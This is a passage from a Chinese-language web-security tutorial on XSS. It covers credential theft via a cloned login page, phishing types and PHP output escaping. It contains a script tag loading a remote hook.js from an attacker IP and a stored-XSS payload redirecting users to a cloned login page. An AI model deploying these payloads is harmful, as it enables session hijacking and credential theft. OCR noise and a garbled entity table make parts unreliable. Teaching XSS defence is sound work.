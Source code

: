 <script src="http://192. 168.253.28:3000/hook.js '></script>

 

**三、xss盗取用户信息**

**1.****盗取用户信息原理**

克隆网站登陆页面，利用存储XSS设置跳转代码，如果用户访问即跳转到克隆网站的登陆页面，用户输入登陆，账号和密码被存储。

**2. setookit****工具克隆网站**

setookit -> 1 -> 2 -> 3 -> 2 站点克隆（本地）

**3.****存储XSS跳转克隆网站**

xss payload: <script>window.location=http://192.168.2.137/”</script>

**4.****查看盗取账号和密码**


 


 

**四、钓鱼**

重定向钓鱼

跨框架钓鱼

 # 四、防御

**一、****XSS- filter****过滤器介绍**

   输入检查 XSS Filter 对输入内容做格式检查，类似“白名单”，可以让一些基于特殊字符的攻击失效。在客户端JS和服务器端代码中实现相同的输入检查（服务器端必须有）。

   输出检查 在变量输出到html页面时，可以使用编码或转义的方式来防御XSS攻击 HtmlEncode：将字符转成HTMLEntities，对应的标准是ISO-8859-1。

**1. htmlspecialchars()****函数**

   在使用PHP开发时，可以使用htmlspecialchars函数进行HTML的转义。它最多可以接收4个参数，与安全性相关的前3个参数尤为重要。

  htmlspecialchars(string,flags, character-set,double_encode)

​     string 必需。规定要转换的字符串。

​     flags 可选。规定如何处理引号、无效的编码以及使用哪种文档类型

​     $quote_style   转换方法(ENT_NOQUOTES,ENT_COMPAT,ENT_QUOTES)

​     $charset   字符编码。例如：UTF-8、GBK

​     htmlspecialchars()函数把预定义的字符转换为HTML实体。

预定义的字符是:

\> &(和号) 成为 &

\> " (双引号)成为 "

\> ' (单引号)成为 '

\> < (小于)成为 <
